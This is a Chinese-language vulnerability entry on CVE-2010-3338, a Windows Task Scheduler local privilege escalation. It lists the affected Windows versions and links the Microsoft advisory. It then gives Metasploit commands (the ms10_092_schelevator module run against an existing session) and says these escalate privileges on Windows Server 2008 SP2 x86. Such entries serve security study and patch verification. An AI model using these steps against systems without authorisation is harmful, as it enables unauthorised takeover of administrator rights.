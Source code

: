 ### CVE-2010-3338

#### 描述

Windows Task Scheduler无法正确确定计划任务的安全上下文，这使本地用户可以通过精心设计的应用程序获取特权

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows 7           | -       |        |         |        |
| Windows Server 2008 | -       | SP2    | Itanium |        |
| Windows Server 2008 |         |        | X64     |        |
| Windows Server 2008 |         | SP2    | X32     |        |
| Windows Server 2008 |         | SP2    | X64     |        |
| Windows Server 2008 |         |        | Itanium |        |
| Windows Server 2008 |         |        | X32     |        |
| Windows Server 2008 | R2      |        | X64     |        |
| Windows Server 2008 | R2      |        | Itanium |        |
| Windows Vista       |         | SP1    |         |        |
| Windows Vista       |         | SP1    | X64     |        |
| Windows Vista       |         | SP2    |         |        |
| Windows Vista       |         | SP2    | X64     |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2010-3338
```

#### 利用方式

测试系统 windows server 2008 sp2 x86，利用msf执行如下命令即可，x64版本msf不支持

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf.png?raw=true)

然后就能提权成功了

![image-20200822234608009](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf2.png?raw=true)

